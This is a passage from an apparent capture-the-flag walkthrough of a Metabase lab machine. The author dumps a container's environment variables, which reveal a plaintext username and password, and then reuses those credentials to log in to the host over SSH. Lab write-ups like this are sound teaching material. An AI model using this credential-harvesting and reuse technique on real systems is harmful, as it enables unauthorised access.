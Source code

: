 but it seems we are inside a container, with  IP address: 172.17.0.2.

So we will need to escape from it in order to get access to the user's flag.


When I am inside a container I like to start my enumeration running "env" command to check if there is any environtment variable exposed 

```bash 
4e9d4f66487b:/metabase.db$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=4e9d4f66487b
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/tmp
```


And yes, we get some credentials

```bash
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

**so next step would be to try to connect via ssh using those credentials**

```bash 
# ssh -l metalytics 10.10.11.233
metalytics@analytics:~$ whoami
metalytics
metalytics@analytics:~$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:8aff:fef1:8bba  prefixlen 64  scopeid 0x20<link>
        ether 02:42:8a:f1:8b:ba  txqueuelen 0  (Ethernet)
        RX packets 12674  bytes 13137616 (13.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9587  bytes 2820417 (2.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.233  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:8214  prefixlen 64  scopeid 0x0<global>
```